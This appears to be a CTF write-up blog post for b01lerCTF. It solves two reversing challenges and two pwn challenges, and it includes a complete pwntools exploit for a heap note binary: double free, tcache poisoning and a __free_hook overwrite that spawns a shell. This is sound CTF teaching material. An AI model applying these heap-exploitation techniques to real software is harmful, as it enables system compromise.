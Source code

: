 ```yaml
---
title: "BoilerCTF Write-up"
date: 2024-04-15
draft: false
tags : ["write-up", "b01lerctf"]

---
```


## Reverse
### Annnnnnny-Second-Now

The function `super_optimized_calculation` is a Fibonacci generator.
To solve this chall, we just use the 90th Fibonacci number and modulo it by each number in the v6 array.
![alt text](/posts/b01ler-wu/image.png)
Code: 
```python
v6=[0]*25  

v6[0] = 35831;
v6[1] = 143;
v6[2] = 1061;
v6[3] = 877;
v6[4] = 29463179;
v6[5] = 229;
v6[6] = 112;
v6[7] = 337;
v6[8] = 1061;
v6[9] = 47;
v6[10] = 29599;
v6[11] = 145;
v6[12] = 127;
v6[13] = 271639;
v6[14] = 127;
v6[15] = 353;
v6[16] = 193;
v6[17] = 191;
v6[18] = 337;
v6[19] = 1061;
v6[20] = 193;
v6[21] = 353;
v6[22] = 269;
v6[23] = 487;
v6[24] = 245;

a = 2880067194370816120 & ((1<<64)-1)

for i in v6:
    print(chr(a%i),end='')

```
### js-safe

After deobfuscating the code, we can see that the function `addToPassword` use some operation to check the pass code. If true, it uses this pass code as a key to decrypt the AES encrypted flag.

```javascript
function addToPassword(_0x43b7e8) {
    if (_0x12b1c8.length < 0x6) {
      _0x12b1c8 += _0x43b7e8;
      _0x38a66f();
      if (_0x12b1c8.length === 0x6) {
        let _0xf3bbf = Array(0x6);
        for (let _0x2c8c6a = 0x0; _0x2c8c6a < 0x6; _0x2c8c6a += 0x1) {
          _0xf3bbf[_0x2c8c6a] = _0x12b1c8[_0x2c8c6a].charCodeAt(0x0);
        }
        let _0x4cedc7 = true;
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x1] == (_0xf3bbf[0x0] ^ 0x44);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x3] == (_0xf3bbf[0x2] ^ 0x25);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x0] ^ 0x14);
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x0] == (_0xf3bbf[0x3] ^ 0x22);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x5] + 0xc;
        _0x4cedc7 &= _0xf3bbf[0x2] == _0xf3bbf[0x4] + 0x47;
        _0x4cedc7 &= _0xf3bbf[0x2] == (_0xf3bbf[0x5] ^ 0x13);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x3] ^ 0x36);
        _0x4cedc7 &= 0x52 == _0xf3bbf[0x3];
        if (_0x4cedc7) {
          document.getElementById("display").classList.add("correct");
          let _0x401b01 = CryptoJS.AES.decrypt("U2FsdGVkX19WKWdho02xWkalqVZ3YrA7QrNN4JPOIb5OEO0CW3Qj8trHrcQNOwsw", _0x12b1c8).toString(CryptoJS.enc.Utf8);
          console.log(_0x401b01);
          document.getElementById("display").textContent = _0x401b01;
        } else {
          document.getElementById("display").classList.add("wrong");
        }
      }
    }
}
```
After calculating, we get the pass code is `p4wR0d`. Use this pass code to decrypt the flag.

Flag: `bctf{345y-p4s5w0rd->w<}`


## Pwn
### shall-we-play-a-game

Because we can input v7 with the length 86, we can overwrite the return address of the function `main` to the address of the function `global_thermo_nuclear_war` to get the flag.

![alt text](/posts/b01ler-wu/image-1.png)
### easy-note

This challenge give us a menu which have 5 options: add, delete, view, edit and resize. The binary allow us to modify the content of note whatever it is free or not. To solve it, I use the UAF and tcache poisoning technique to get the shell.

First, we will use double free to leak the address of heap.
```python
add(0,0x80) # use for heap leak
add(1,0x80) # use for libc leak
add(2,0x80) # Prevent consolidation with top chunk

# Use double free to leak heap address
delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))
```
With heap base address, I can get chunk inside the `tcache_perthread_struct` by overwriting the fd of the chunk at index 0(now it is 0x80 tcache). 


```python
edit(0,8,p64(heap+0x10))
```
Next, I allocate 2 chunks to get the chunk inside the `tcache_perthread_struct`. Then, I overwrite the size value of the 0x80 tcache bin, make it look like full.
```python
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))
```
Now, I free the chunk at index 1 to make it into the unsorted bin and leak the libc address.

```python
delete(1)
view(1)
```
With libc address, I edit the first 0x80 tcache value is __free_hook and make the size value of 0x80 tcache bin is 0. Then, I allocate a 0x80 chunk to get the __free_hook address. 
```python
edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)
```
Finally, I overwrite the __free_hook with the address of system and get the shell.
```python
edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

```

#### Full exploit
```python
from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

p = process([exe.path])



def add(pos,size):
    p.sendline(b'1')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
def delete(pos):
    p.sendline(b'2')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
def view(pos):
    p.sendline(b'3')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())    
def edit(pos,size,mes):
    p.sendline(b'4')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
    p.sendline(mes) 

def resize(pos,size):
    p.sendline(b'6')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())


add(0,0x80)
add(1,0x80)
add(2,0x80)

delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))

# tcache poisoning

edit(0,8,p64(heap+0x10))
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))

# Leak libc
delete(1)
view(1)

libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x3ebca0+0x3c000
log.info('[+] Libc base: '+hex(libc.address))
log.info("[+] Free hook address: "+hex(libc.sym['__free_hook']))

edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)

edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

p.interactive()
```
